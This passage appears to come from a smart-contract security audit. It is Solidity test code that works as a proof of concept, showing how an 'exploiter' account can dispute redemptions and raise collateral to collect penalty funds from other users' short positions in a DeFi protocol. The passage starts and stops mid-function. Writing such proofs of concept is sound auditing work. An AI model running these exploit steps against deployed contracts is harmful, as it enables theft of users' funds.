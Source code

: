 ```solidity
        vm.prank(exploiter);
        diamond.disputeRedemption(asset, randomRedemptioner4, 0, exploiter, 3);

        // 5. Increases CR of his small positon to healthy CR levels
        vm.prank(exploiter);
        diamond.increaseCollateral(asset, 3, 7.6 ether);

        STypes.AssetUser memory balanceAfterDisputes = diamond.getAssetUserStruct(asset, exploiter);

        // gets all erc penalties of all disputed redemptions
        console.log("balanceBeforeDisputes.ercEscrowed", balanceBeforeDisputes.ercEscrowed);
        console.log("balanceAfterDisputes.ercEscrowed", balanceAfterDisputes.ercEscrowed);
    }

    // Showing that is is possible to achieve disputes with SRs that are below initialCR (CR 1.7).
    function test_decreaseCollateral_poc_2_belowInitialCR() public {
        address exploiter = makeAddr("exploiter");
        address buyer = makeAddr("buyer");
        address randomSeller = makeAddr("randomSeller");
        address randomRedemptioner = makeAddr("randomRedemptioner");
        address randomRedemptioner2 = makeAddr("randomRedemptioner2");
        address randomRedemptioner3 = makeAddr("randomRedemptioner3");

        // 1. create 4 different Short Record positions

        // # Exploiter's Short Record id: 2
        {
            createCustomLimitShort(exploiter, DEFAULT_PRICE, DEFAULT_AMOUNT, 1000); // CR 10X
            fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, buyer);
        }

        {
            // # Random seller's Short Record id: 2
            createCustomLimitShort(randomSeller, DEFAULT_PRICE, DEFAULT_AMOUNT, 410); // CR 4.1X
            fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, buyer);

            // # Random seller's Short Record id: 3
            createCustomLimitShort(randomSeller, DEFAULT_PRICE, DEFAULT_AMOUNT, 415); // CR 4.15X
            fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, buyer);

            // # Random seller's Short Record id: 4
            createCustomLimitShort(randomSeller, DEFAULT_PRICE, DEFAULT_AMOUNT, 425); // CR 4.25X
            fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, buyer);
        }

        // 2. Time passes and price of asset drops and lowers CR to below redemptionCR levels
        _setETH(1080 ether);
        skip(10000);

        // log current CR of all positions
        {
            STypes.ShortRecord memory shortRecord = diamond.getShortRecord(asset, exploiter, 2);
            uint256 crOfExploiter = diamond.getCollateralRatio(asset, shortRecord);
            console.log("CR of exploiter position", crOfExploiter); // CR 2.97X
        }

        {
            STypes.ShortRecord memory shortRecord1 = diamond.getShortRecord(asset, randomSeller, 2);
            STypes.ShortRecord memory shortRecord2 = diamond.getShortRecord(asset, randomSeller, 3);
```